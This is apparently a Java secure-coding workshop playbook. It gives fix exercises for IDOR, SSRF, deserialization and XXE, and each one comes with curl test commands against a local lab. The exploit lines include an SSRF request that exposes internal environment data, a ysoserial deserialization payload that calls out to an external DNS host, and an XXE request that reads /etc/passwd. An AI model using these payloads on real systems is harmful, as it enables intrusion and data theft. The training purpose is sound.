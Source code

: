 # playbook-08.md & Api.java

Welcome to this 8th playbook, here you'll learn about Insecure Direct Object Reference, Server Side Request Forgery, Java unserialize issues, and XML External Entity.

## IDOR

Goal1: Fix the IDOR issue so a user can only acces their own billing information.
Goal2: Think about another solution to mitigate such issue and explain it without implementing it.

Insecure Direct Object Reference consist in a user, authentified or not, being able to access data that doesn't belong to them. It often requires guessing the right id or uuid to access, as well as a lack of ownership check, also call RBAC for Role Based Access Control.

```bash
# Test feature
curl -sSkg "http://127.0.0.1/api/user/1/billing/1" # Output: {"user_id":"1","card_info":"VISA, 4150321684570625, 8/2025, 425","card_id":"1","card_owner":"1"}
# Test exploit
curl -sSkg "http://127.0.0.1/api/user/1/billing/5" # Output: {"user_id":"1","card_info":"VISA, 4024007184111184, 10/2025, 718","card_id":"5","card_owner":"3"}
```

## SSRF

Goal1: Fix the SSRF that exposes the loopback and the internal network. Let's keep it simple for now, let's assume that we'll only pick profiles form https://fr.gravatar.com/ such as "https://fr.gravatar.com/ypdohmnjoxpatw40ul28"
Goal2: Without implementing it, propose a solution to protect access to /api/protected-feature without relying on the source IP.

Server Side Request Forgery are generally present when and attacker can control parts or all of a URLs or URIs (think about file:// glob:// jar:// etc) that is then used by the server to emit requests process some URI's content.

```bash
# Test feature
curl -sSkgi "http://127.0.0.1/api/protected-feature" # Output: {"content":"Denied, bad source IP"}
# Test exploit
curl -sSkgi "http://127.0.0.1/api/user/fetchProfile?url=http://127.0.0.1:8080/api/protected-feature" # Output: {"content":"{\"PATH\":\"/root/.sdkman/candidates/java/current/bin:/root/.sdkman/candidates/gradle/current/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin\",\"SDKMAN_VERSION\":\"5.15.0\",\"JAVA_HOME\":\"/root/.sdkman/candidates/java/current\",\"SDKMAN_CANDIDATES_API\":\"https://api.sdkman.io/2\",\"SDKMAN_PLATFORM\":\"linuxx64\",\"GRADLE_HOME\":\"/root/.sdkman/candidates/gradle/current\",\"HOSTNAME\":\"ab16d96fae0c\",\"SDKMAN_DIR\":\"/root/.sdkman\",\"PWD\":\"/sources\",\"HOME\":\"/root\",\"SHLVL\":\"0\",\"SDKMAN_CANDIDATES_DIR\":\"/root/.sdkman/candidates\",\"_\":\"/root/.sdkman/candidates/gradle/current/bin/gradle\"}"}
```

## Unserialize

Goal: Play a bit with the exploit, try to find a way to use (un)serialization without being at risk. How could we prevent unserialize issues?

Historically, (un)serialization was a convenient way to pass complex classes from one server to another, or to save a kind of "internal state" on the frontend before an end-user takes an action that will submit it again to the backend and update this state. The problem with this approach is that many Classes methods can be chained upon deserialization in a way to achieve remote code execution, code evaluation, or file read/write. The way such exploit works is _really_ complex, we'd be happy to chat more in depth about this, but not in this short session! ;)

A small quote from Snyk (dependency security analysis tool) we couldn't agree more with:

> The best way to prevent a Java deserialize vulnerability is to prevent Java serialization overall. If your application does not accept serialized objects at all, it cannot harm you.

```bash
# Test feature
# There's no real feature implemented here, we just want you to know that this exists, and can cause a lot of damage! :)

# Test exploit
PAYLOAD=rO0ABXNyABFqYXZhLnV0aWwuSGFzaE1hcAUH2sHDFmDRAwACRgAKbG9hZEZhY3RvckkACXRocmVzaG9sZHhwP0AAAAAAAAx3CAAAABAAAAABc3IADGphdmEubmV0LlVSTJYlNzYa%2FORyAwAHSQAIaGFzaENvZGVJAARwb3J0TAAJYXV0aG9yaXR5dAASTGphdmEvbGFuZy9TdHJpbmc7TAAEZmlsZXEAfgADTAAEaG9zdHEAfgADTAAIcHJvdG9jb2xxAH4AA0wAA3JlZnEAfgADeHD%2F%2F%2F%2F%2F%2F%2F%2F%2F%2F3QAF3dvcmtzaG9wLnoubWFub2hhY2suY29tdAABL3EAfgAFdAAEaHR0cHB4dAAfaHR0cDovL3dvcmtzaG9wLnoubWFub2hhY2suY29tL3g%3D
curl -sSkgi "http://127.0.0.1/api/debug-feature?serializedObject=$PAYLOAD" # Output: {"content":"ok"}

# Bonus - Generate your own gadget!
## Setup SDKMan to have the right java version
curl -s "https://get.sdkman.io" | bash
sdk install java 11.0.14-zulu
sdk use java 11.0.14-zulu
# Get your dns bin here: https://requestbin.net/dns
alias urlencode='python3 -c "import sys; from urllib.parse import quote; print(quote(sys.argv[1], safe=str()))"'
PAYLOAD=$(urlencode $(java -jar ysoserial.jar URLDNS 'http://<YOUR_DNS_BIN>/' |  base64 -w 0))
echo "$PAYLOAD"
curl -sSkgi "http://127.0.0.1/api/debug-feature?serializedObject=$PAYLOAD"
# Verify it worked on your dns handler

# You can also list other gadgets with
java -jar ysoserial.jar -l
```

## XXE

Goal1: Fix the XML External Entity while preserving the current feature that parses xml and outputs
Hint: One line is more than enough for this!

XML External Entity is a super convenient issue for attackers as it allows the exploitation of many exploit primitives at once. Indeed, one XXE can lead to SSRF, file listing, reading, sometimes file upload, or even unserialize issues! The SSRF can work for any of http, https, ftp, sftp, jar, telnet, and much more! It has been known since early 2000, yet it's still quite common for various languages and frameworks to expose such issues with parsers not using the right options, or not adopting a "safe by default" approach...

```bash
# Test feature
curl -sSkg "http://127.0.0.1/api/xml" -H 'Content-Type: application/xml' --data-binary "$(cat sources/sample-good.xml)"  # Should display the content of xml back
# Test exploit
curl -sSkg "http://127.0.0.1/api/xml" -H 'Content-Type: application/xml' --data-binary "$(cat sources/sample-evil.xml)"  # Should display the content of /etc/passwd
```
